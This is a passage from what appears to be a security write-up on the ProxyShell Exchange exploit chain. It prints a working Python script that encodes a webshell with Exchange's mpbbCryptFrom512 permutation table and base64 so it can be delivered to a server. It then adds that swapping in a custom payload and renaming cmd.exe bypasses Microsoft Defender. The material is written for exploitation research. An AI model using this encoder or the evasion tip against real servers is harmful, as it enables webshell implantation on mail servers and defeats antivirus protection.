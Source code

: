 - And we create an encode function

```python
def encode(payload):
    mpbbCryptFrom512 = [
        65, 54, 19, 98, 168, 33, 110, 187, 244, 22, 204, 4, 127, 100, 232, 93,
        30, 242, 203, 42, 116, 197, 94, 53, 210, 149, 71, 158, 150, 45, 154, 136,
        76, 125, 132, 63, 219, 172, 49, 182, 72, 95, 246, 196, 216, 57, 139, 231,
        35, 59, 56, 142, 200, 193, 223, 37, 177, 32, 165, 70, 96, 78, 156, 251,
        170, 211, 86, 81, 69, 124, 85, 0, 7, 201, 43, 157, 133, 155, 9, 160,
        143, 173, 179, 15, 99, 171, 137, 75, 215, 167, 21, 90, 113, 102, 66, 191,
        38, 74, 107, 152, 250, 234, 119, 83, 178, 112, 5, 44, 253, 89, 58, 134,
        126, 206, 6, 235, 130, 120, 87, 199, 141, 67, 175, 180, 28, 212, 91, 205,
        226, 233, 39, 79, 195, 8, 114, 128, 207, 176, 239, 245, 40, 109, 190, 48,
        77, 52, 146, 213, 14, 60, 34, 50, 229, 228, 249, 159, 194, 209, 10, 129,
        18, 225, 238, 145, 131, 118, 227, 151, 230, 97, 138, 23, 121, 164, 183, 220,
        144, 122, 92, 140, 2, 166, 202, 105, 222, 80, 26, 17, 147, 185, 82, 135,
        88, 252, 237, 29, 55, 73, 27, 106, 224, 41, 51, 153, 189, 108, 217, 148,
        243, 64, 84, 111, 240, 198, 115, 184, 214, 62, 101, 24, 68, 31, 221, 103,
        16, 241, 12, 25, 236, 174, 3, 161, 20, 123, 169, 11, 255, 248, 163, 192,
        162, 1, 247, 46, 188, 36, 104, 117, 13, 254, 186, 47, 181, 208, 218, 61
    ]
    tmp = b''
    for i in payload:
        tmp += bytes([mpbbCryptFrom512.index(ord(i))])
    return tmp

 if len(sys.argv) < 2:
    print(f'run python3 {sys.argv[0]} <filename>')
    sys.exit(0)

 with open(sys.argv[1], 'r') as webshell_file:
    webshell = webshell_file.read()
    print('[+] Input shell :')
    print(webshell)
    print('[+] result :')
    result = encode(webshell)
    print(base64.b64encode(result))
```

if we try to rencode the origin payload we get the original result !

![proxyshell_encode.png](/assets/blog/EXCHANGE/proxyshell_encode.png)

- Ok fine so we can change the original payload in the script to pass our custom payload and bypass defender (has said by orange tsai, renaming cmd.exe to another binary do the trick)
